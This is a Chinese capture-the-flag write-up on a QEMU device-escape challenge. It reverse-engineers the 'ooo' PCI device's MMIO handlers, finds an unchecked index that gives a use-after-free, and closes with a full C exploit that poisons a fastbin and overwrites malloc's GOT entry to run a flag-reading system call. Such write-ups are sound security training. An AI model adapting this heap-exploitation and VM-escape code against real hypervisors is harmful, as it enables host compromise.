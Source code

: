 此题目是一个去符号表的题目，启动命令如下

```shell
#!/bin/sh
./qemu-system-x86_64 -initrd ./initramfs-busybox-x86_64.cpio.gz -nographic -kernel ./vmlinuz-4.4.0-119-generic -append "priority=low console=ttyS0" -device ooo

```

可以看出有一个ooo设备，在ida里的函数表中搜寻ooo是搜不到的，那就尝试shift + f12来进行。

![image-20201015171732180](https://gitee.com/zhzzhz/blog_warehouse/raw/master/img/image-20201015171732180.png)

可以发现有一个ooo_class_init，在里面获取到我们想要的设备信息，vendor_id为0x420，device_id为0x1337，在虚拟机中`lspci`获取到相应的信息

```shell
/ # lspci
00:00.0 Class 0600: 8086:1237
00:01.0 Class 0601: 8086:7000
00:01.1 Class 0101: 8086:7010
00:01.3 Class 0680: 8086:7113
00:02.0 Class 0300: 1234:1111
00:03.0 Class 0200: 8086:100e
00:04.0 Class 00ff: 0420:1337
```

因为符号表已经被去掉，所以我们是找不到read，write函数的，但是我们可以根据经验来，一般来说，在xxx_class_init函数中会出现`realize`函数，`realize`函数中一般会存在一个ops结构体，里面存储着read，write函数的地址，我们可以根据这一条思路去进行逆向，寻找。

![image-20201018133932848](https://gitee.com/zhzzhz/blog_warehouse/raw/master/img/image-20201018133932848.png)

![image-20201018133950790](https://gitee.com/zhzzhz/blog_warehouse/raw/master/img/image-20201018133950790.png)

可以看到，read函数和write函数的地址就被我们找到了。对其进行逆向，获取到关键信息

`ooo_mmio_read`函数

```c
__int64 __fastcall ooo_mmio_read(__int64 a1, int a2, unsigned int size)
{
  unsigned int v4; // [rsp+34h] [rbp-1Ch]
  __int64 dest; // [rsp+38h] [rbp-18h]
  __int64 v6; // [rsp+40h] [rbp-10h]
  unsigned __int64 v7; // [rsp+48h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v6 = a1;
  dest = 0x42069LL;
  v4 = (a2 & 0xF0000u) >> 16;                   // 获取低位的第5个字节
  if ( (a2 & 0xF00000u) >> 20 != 0xF && my_buf[v4] )// 如果低位的第六个字节不是F且数组里有值
    memcpy(&dest, (char *)my_buf[v4] + (signed __int16)a2, size);
  return dest;
```

`ooo_mmio_write`函数

```c
void __fastcall ooo_mmio_write(__int64 opaque, __int64 addr, __int64 val, unsigned int size)
{
  unsigned int cmd; // eax
  char n[12]; // [rsp+4h] [rbp-3Ch]
  __int64 addr_; // [rsp+10h] [rbp-30h]
  __int64 v7; // [rsp+18h] [rbp-28h]
  __int16 v8; // [rsp+22h] [rbp-1Eh]
  int i; // [rsp+24h] [rbp-1Ch]
  unsigned int v10; // [rsp+28h] [rbp-18h]
  unsigned int bin; // [rsp+2Ch] [rbp-14h]
  unsigned int bin_; // [rsp+34h] [rbp-Ch]
  __int64 v13; // [rsp+38h] [rbp-8h]

  v7 = opaque;
  addr_ = addr;
  *(_QWORD *)&n[4] = val;
  v13 = opaque;
  v10 = ((unsigned int)addr & 0xF00000) >> 20;
  cmd = ((unsigned int)addr & 0xF00000) >> 20;
  switch ( cmd )
  {
    case 1u:
      free(my_buf[((unsigned int)addr_ & 0xF0000) >> 16]);
      break;
    case 2u:
      bin_ = ((unsigned int)addr_ & 0xF0000) >> 16;
      v8 = addr_;
      memcpy((char *)my_buf[bin_] + (signed __int16)addr_, &n[4], size);
      break;
    case 0u:
      bin = ((unsigned int)addr_ & 0xF0000) >> 16;
      if ( bin == 0xF )
      {
        for ( i = 0; i <= 14; ++i )
          my_buf[i] = malloc(8LL * *(_QWORD *)&n[4]);// malloc(val * sizeof(uint64_t)
      }
      else
      {
        my_buf[bin] = malloc(8LL * *(_QWORD *)&n[4]);
      }
      break;
  }
}
```

可以获取到的信息是：

1. 当低位的第六位是0时，获取低位的第五位信息，如果第五位是0xF，就循环malloc(val * sizeof(uint64_t)) 15次且其位置是bss段，也就是说是全局变量，否则只在指定的地点malloc一次
2. 当低位的第六位是1时，将指定地点的堆块free
3. 当低位的第六位是2时，将val的值写入指定的堆块

### 漏洞分析

注意此处的bin，直接从输入的addr进行取值，无检测，那也就意味着可以进行任意堆块的写入操作，配合free，达成了uaf的条件，我们可以往已经free的堆块里写入数据，修改fd/bk。

这题的情况是这样的，回收机制被破坏，Bin指令已经看不到了，所以会需要我们遍历所有的指针。操作如下：

1. malloc出一个0x70堆块，因为这是构建出来的虚拟机，所以chunksize中后三位的第三位（非主存分配）会置1，这也就导致了我们在内存中看到的size位是0x75（第三位和第一位置1）
2. malloc第二个，防止和topchunk合并（真的还有topchunk吗？）
3. free第一个堆块，然后往第一个堆块的fd位置写入0x131796d，为了再次malloc的时候使得那个地址的size位置符合fastbin的检测
4. 从这里开始就会出现非预测的情况了，这里并不会直接进行你exp的下一条命令，而是会在你原本的addr上+0x4再次执行一次（蛮离谱的，我也搞不懂为什么）
5. 所以这里我们就直接采用暴力的遍历，多次malloc和edit来确保我们的堆块成功被分配在了bss段的buf数组上，再将malloc的got表改成system('cat ./flag'）
6. 最后就调用malloc，就调用了system("cat ./flag")

### 漏洞exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <sys/types.h>
#include <sys/mman.h>


#define MAP_SIZE 4096UL
#define MAP_MASK (MAP_SIZE - 1)

int fd = -1;
char *file = "sys/devices/pci0000:00/0000:00:04.0/resource0";

void pcimem(uint64_t target, char access_type, uint64_t writeval)
{
    uint64_t read_result;
    int type_width = 0;

    printf("mmap(%d, %ld, 0x%x, 0x%x, %d, 0x%x)\n",0,MAP_SIZE,PROT_READ | PROT_WRITE, MAP_SHARED,fd,(int)target);
    void *map_base = mmap(0,MAP_SIZE,PROT_READ | PROT_WRITE,MAP_SHARED,fd,target & ~MAP_MASK);
    if (map_base == (void *)-1)
        exit(-1);
    printf("PCI Memory mapped to address 0x%08lx.\n", (unsigned long) map_base);

    void *virt_addr = map_base + (target & MAP_MASK);
    switch (access_type) {
        case 'b':
            *((uint8_t *) virt_addr) = writeval;
            read_result = *((uint8_t *) virt_addr);
            type_width = 1;
            break;
        case 'h':
            *((uint16_t *) virt_addr) = writeval;
            read_result = *((uint16_t *) virt_addr);
            type_width = 2;
            break;
        case 'w':
            *((uint32_t *) virt_addr) = writeval;
            read_result = *((uint32_t *) virt_addr);
            type_width = 4;
            break;
        case 'd':
            *((uint64_t *) virt_addr) = writeval;
            read_result = *((uint64_t *) virt_addr);
            type_width = 8;
            break;
    }
    printf("Written 0x%0*lx; readback 0x%*lx\n",type_width,writeval,type_width,read_result);
    if(munmap(map_base,MAP_SIZE) == -1)
        exit(-1);
}

int main(int argc,char **argv) {

    if ((fd = open(file, O_RDWR | O_SYNC)) == -1)
        exit(-1);
    printf("%s opened\n",file);

    pcimem(0x060000,'b',0xd); // 在数组的第七个索引处创建一个大小为0x70堆块
    pcimem(0x000000,'b',0xd); // 在数组的第一个索引处创建一个大小为0x70堆块
    pcimem(0x010000,'b',0xd); 

    pcimem(0x100000,'b',0xd);
    pcimem(0x200000,'d',0x131796d);

    int i = 0;
    for (i; i < 3; i++){
        pcimem(i << 16, 'b',0xd);
    }

    for (i = 0; i < 3 ; i++){
        pcimem((0x20 | i) << 16, 'd', 0x1130b78000000); // 将其地址改成malloc的got表
    }

    pcimem(0x280000,'d',0x6E65F9); // 对got表里面的内容进行改写
    pcimem(0x000000,'b',0x10);

    close(fd);
    exit(1);
    return 0;
}

```

